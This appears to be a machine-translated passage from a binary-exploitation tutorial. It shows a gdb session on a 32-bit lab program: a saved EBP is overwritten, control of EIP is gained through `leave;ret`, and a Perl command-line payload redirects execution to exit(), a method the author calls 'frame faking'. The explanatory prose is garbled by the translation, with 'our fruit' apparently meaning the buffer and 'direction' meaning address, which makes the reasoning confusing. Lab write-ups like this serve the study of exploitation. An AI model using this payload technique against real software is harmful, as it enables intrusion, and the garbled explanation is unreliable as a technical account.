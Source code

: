 We now see how the implementation of EBP `leave` our little place in the value. Continue to `leave` the caller function (`f1()`), the critical point.

(gdb) c
Continuing.

Breakpoint 3, 0x0804849b in f1 ()  
1: x/i $pc  
\=> 0x804849b <f1+15>: leave  
(gdb) i r ebp esp  
ebp 0xffffd258 0xffffd258  
esp 0xffffd248 0xffffd248  
(gdb) nexti  
0x0804849c in f1 ()  
1: x/i $pc  
\=> 0x804849c <f1+16>: ret  
(gdb) i r ebp esp  
ebp 0xffffd320 0xffffd320  
esp 0xffffd25c 0xffffd25c  
(gdb)

Well, we ended with 0x5c in the low byte of the ESP, which, by chance (light), is `0x58 + 4`, as could provide (as the `pop ebp` within `leave` increases the ESP in 4 bytes). now, the `ret` collect whatever containing the address pointed to by ESP, that is, by chance (now without irony), 0x08048511, which falls in `__libc_csu_init()`, so it returns to `__libc_csu_init()` when in fact the program should return to `main()`.

(gdb) x $esp
0xffffd25c: 0x08048511
(gdb) nexti
0x08048511 in \_\_libc\_csu\_init ()
1: x/i $pc
=> 0x8048511 <\_\_libc\_csu\_init+33>: lea    -0xf8(%ebx),%eax
(gdb)

And demonstrate that by placing in an arbitrary direction saved EBP obtain control of the second EIP `leave;ret` running, the condition is placed in the EBP saved an address that points to our fruit. Note that this usually is only viable if it is in a system without ASLR, since neither we at this stage of the attack with the ability to perform more complex attacks, _aka_ ROP, and to make matters worse, play in the playground more slippery the world: the stack. Moreover, without ASLR do have the ability to ropp because ESP points to our fruit, and we have so much space as to the `EBP(s)`. However, we will see a kind of ROP called _frame faking_ that can be more useful on certain occasions.

Anyway, no one forbids us to practice, right?

``(gdb) run `perl -e 'print "A"x208 . "x10x83x04x08" . "AAAA" . "x05" . "A"x39 . "x08"'`  
Starting program: /home/arget/a `perl -e 'print "A"x208 . "x10x83x04x08" . "AAAA" . "x05" . "A"x39 . "x08"'`  
[Inferior 1 (process 4233) exited with code 05]``

Simply call the exit() function from the FPE, with 0x41414105 argument, but, as we have seen, exit() returns as a return value of the program only the last byte of the argument, so gdb tells us that has value dated 05 demonstrating successful frankly simple (<2 minutes xd) exploitation.

You can see that the value overwritten `EBP(s)` is 0x08, to be increased by 4 and get to 0x0c (the value that I chose, for whatever reason now describe). This is because the `EBP(s)` contains first three bytes 0xffffd2 .. while our fruit starts with 0xffffd1 .. although by looking up addresses our fruit, we see that part of the fruit (60 bytes neither more nor less ) are also in 0xffffd2 … Within those addresses whose penultimate byte 0xD2 pointing to our fruit, I took an offset anyone other than 0x00: 0x0c. I’ll be honest, I took the smallest offset whose direction was clear in gdb without add but would have been better to use the offset 0x01 if it is recommended that alignment with 0xF is maintained, so it would be better to use 0x4 (or 0x00, but is a null byte: $) -. After calculating what part of our fruit is in that direction (`0xffffd20c`), put there the direction we want to lie in the EIP, and, like a ROP it were, can string together functions falsifying more frames using as gadget one `leave;ret`. This technique has a name, _**frame faking**_ or falsify frames.
